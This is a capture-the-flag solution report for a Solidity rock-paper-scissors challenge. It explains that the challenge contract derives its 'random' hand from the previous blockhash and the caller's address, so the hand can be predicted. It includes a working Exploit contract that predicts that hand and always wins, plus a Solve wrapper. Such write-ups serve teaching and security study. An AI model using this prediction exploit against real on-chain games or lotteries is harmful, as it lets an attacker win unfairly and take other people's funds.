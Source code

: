 # Rock Scissor Paper - Solution Report

## Vulnerability

The main vulnerability in this challenge lies in the `randomShape()` function of the `RockPaperScissors` contract:

```solidity
function randomShape() internal view returns (Hand) {
    return Hand(uint256(keccak256(abi.encodePacked(msg.sender, blockhash(block.number - 1)))) % 3);
}
```

This function has two critical issues:

1. Predictable Randomness: The function uses `blockhash(block.number - 1)` as a source of randomness. However, this value is known and can be predicted by the attacker in the same block.

2. Visible to Callers: Although the function is marked as `internal`, its logic can be replicated by external callers because all inputs (`msg.sender` and `blockhash(block.number - 1)`) are accessible on-chain.

These vulnerabilities allow an attacker to predict the hand that the contract will play before calling `tryToBeatMe()`. By knowing the contract's hand in advance, the attacker can always choose a winning hand, guaranteeing victory and setting the `defeated` flag to `true`.

The use of block-dependent variables for randomness is a common pitfall in smart contract development. In this case, it completely undermines the game's fairness and security, making it possible for an attacker to win every time.

## Proof of Concept (PoC)

The core of the exploit is implemented in the `Exploit` contract:

```solidity
contract Exploit {
    Challenge immutable challenge;

    constructor(Challenge chal) payable {
        challenge = Challenge(chal);
    }

    function exploit() external {
        RockPaperScissors rps = challenge.rps();

        // Recreate the randomShape logic
        RockPaperScissors.Hand challengeHand =
            RockPaperScissors.Hand(uint256(keccak256(abi.encodePacked(address(this), blockhash(block.number - 1)))) % 3);

        // Choose winning hand
        RockPaperScissors.Hand winningHand;
        if (challengeHand == RockPaperScissors.Hand.Rock) {
            winningHand = RockPaperScissors.Hand.Paper;
        } else if (challengeHand == RockPaperScissors.Hand.Paper) {
            winningHand = RockPaperScissors.Hand.Scissors;
        } else {
            winningHand = RockPaperScissors.Hand.Rock;
        }

        // Call tryToBeatMe with our winning hand
        rps.tryToBeatMe(winningHand);
    }
}
```

The `exploit()` function performs the following steps:

1. Gets the `RockPaperScissors` contract instance from the `Challenge` contract.
2. Predicts the challenge's hand by recreating the `randomShape()` logic.
3. Determines the winning hand based on the predicted challenge hand.
4. Calls `tryToBeatMe()` with the winning hand.

The `Solve` contract integrates this exploit into the CTF framework:

```solidity
contract Solve is CTFSolver {
    function solve(address challengeAddress, address) internal override {
        Challenge challenge = Challenge(challengeAddress);
        Exploit exploit = new Exploit(challenge);
        exploit.exploit();
    }
}
```

This `solve()` function deploys the `Exploit` contract and calls its `exploit()` function to solve the challenge.
